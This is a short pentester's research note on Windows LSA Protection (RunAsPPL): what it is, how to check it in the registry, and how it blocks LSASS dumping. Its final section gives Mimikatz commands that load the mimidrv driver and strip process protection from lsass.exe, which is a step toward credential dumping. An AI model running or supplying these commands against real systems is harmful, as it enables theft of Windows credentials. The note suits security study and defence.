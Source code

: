 # Research into LSA Protection: `RunAsPPL`
## What is PPL?
- `RunAsPPL` is an LSA protection introduced in Windows 8.1. See [Microsoft's article](https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection) introducing it.
- It can be configured via a reg entry set to DWORD `0x00000001`: `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa`
- Persists across reboots and is a pain to get around. You will get "Access Denied" when doing things that touch LSASS such as making a `.dmp` from Task Manager and of course Mimikatz.
- During one internal pentest, it really frustrated me -- assuming it was the EDR tool blocking me, it took me a while to see it was PPL.
- Exceptions to this protection include plug-ins that are digitally signed with a MS signature and adherence to MS's SDL.
- The exceptions are intended to cover things like smartcard reader plugins, password filtering plugins, etc.
- This is in the Protected Store meaning even if you could modify the reg entry it would reset itself upon reboot.
- More info:
  - [T1177: LSASS Driver](https://attack.mitre.org/techniques/T1177/)
  - [CrowdStrike Blog: Evolution of Protected Processes](https://www.crowdstrike.com/blog/evolution-protected-processes-part-1-pass-hash-mitigations-windows-81/)

## Check for PPL
- Simple registry check shows if it's configured: 
  ```
  reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL
  ```

## Bypasses
- Mimikatz has a bypass to load an MS-signed Windows kernel driver `Mimidrv`. See [this SpecterOps post](https://posts.specterops.io/mimidrv-in-depth-4d273d19e148) for more info.
- The `!processprotect` function is probably the most used functionalities of `mimidrv`.
  - The goal is to remove process protection from a process (typicall `lsass.exe`)
  - It will patch the process and remove process protections
  - You can also protect processes too with this, for instance, protect `mimikatz.exe` and then unprotect `lsass.exe`
  ```
  mmk# privilege::debug
  mmk# !+
  mmk# !processprotect /process:mimikatz.exe
  mmk# !processprotect /process:lsass.exe /remove
  ```

